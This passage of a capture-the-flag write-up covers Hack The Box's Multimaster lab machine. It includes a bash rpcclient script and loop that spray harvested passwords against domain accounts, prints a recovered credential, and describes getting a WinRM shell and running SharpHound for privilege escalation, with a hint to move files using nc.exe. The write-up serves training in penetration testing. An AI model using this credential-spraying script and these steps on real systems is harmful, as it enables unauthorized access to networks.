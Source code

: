 ```
MEGACORP\Developers
```

You can see that there are a couple of accounts not listed in Colleague Finder. Let's write a simple shell script driven by `rpcclient` to verify these accounts against the three passwords obtained above.

<div class="filename"><span>verify.sh</span></div>

```shell
# cat verify.sh
#!/bin/bash

HOST=10.10.10.179
DOMAIN=MEGACORP
USER=$1
PASS=$2

if rpcclient -U"${DOMAIN}/${USER}%${PASS}" -c "exit" ${HOST} &>/dev/null; then
    echo "[+] User: $USER, Pass: $PASS"
    exit 0
fi
```

Let's give it a shot.

```
# for user in $(cat valid.txt); do for pw in $(cat passwords.txt); do ./verify.sh $user $pw; done; done
[+] User: tushikikatomo, Pass: finance1
```

Awesome. The credential is (`tushikikatomo:finance1`).

## Low-Privilege Shell

Now, let's see if we can access WinRM with the credential using Evil-WinRM.

{% include image.html image_alt="9930ba57.png" image_src="/1d524e84-a341-45e7-a5f9-ca9d5f158970/9930ba57.png" %}

Excellent. The file `user.txt` is at the desktop.

{% include image.html image_alt="ad2bf19e.png" image_src="/1d524e84-a341-45e7-a5f9-ca9d5f158970/ad2bf19e.png" %}

## Privilege Escalation

During enumeration of `tushikikatomo`'s account, I notice that I was able to run [`SharpHound.exe`](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.exe). I'll leave it as an exercise how to transfer `SharpHound.exe` over to Multimaster and how to transfer the collected graph back. **Hint**: `nc.exe` from Kali Linux.

I was able to zoom into the shortest path to our high value target in no time.

{% include image.html image_alt="4676fd90.png" image_src="/1d524e84-a341-45e7-a5f9-ca9d5f158970/4676fd90.png" %}


[1]: https://www.hackthebox.eu/home/machines/profile/232
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/home/users/profile/8308
[4]: https://www.hackthebox.eu/
